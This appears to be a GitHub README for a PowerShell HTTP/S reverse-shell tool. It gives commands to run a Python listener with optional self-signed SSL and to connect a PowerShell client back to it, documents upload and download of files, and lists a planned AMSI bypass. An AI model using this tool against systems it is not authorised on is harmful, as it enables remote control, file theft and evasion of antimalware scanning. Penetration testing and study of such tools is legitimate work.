

# Powershell HTTP/S Reverse Shell

##  server.py - server



On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control

# Future features
    - AMSI bypass
    - Autocomplete
    - Multiple sessions
    
